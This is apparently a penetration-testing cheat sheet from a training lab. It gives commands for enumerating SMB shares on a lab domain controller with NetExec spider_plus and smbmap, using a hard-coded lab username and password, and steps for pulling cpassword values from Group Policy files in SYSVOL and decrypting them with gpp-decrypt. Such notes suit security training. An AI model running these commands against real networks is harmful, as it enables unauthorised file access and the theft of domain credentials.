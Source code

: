 
The module `spider_plus` will dig through each readable share on the host and list all readable files. Let's give it a try.

```shell
sudo nxc smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

```
read output json file
```shell-session
$ head -n 10 /tmp/cme_spider_plus/172.16.5.5.json 
```

## smbmap

list share recursively 
```shell-session
$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5  -R <share>
```
### Recursive list of all directories (no files)
```shell-session
$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
```

also at [pillaging](../../p)

## group policy file in sysvol share
#group-policy #gpp-decrypt
look for groups,xml in sysvol
get cpassword
```
gpp-decrypt <encrypted>
```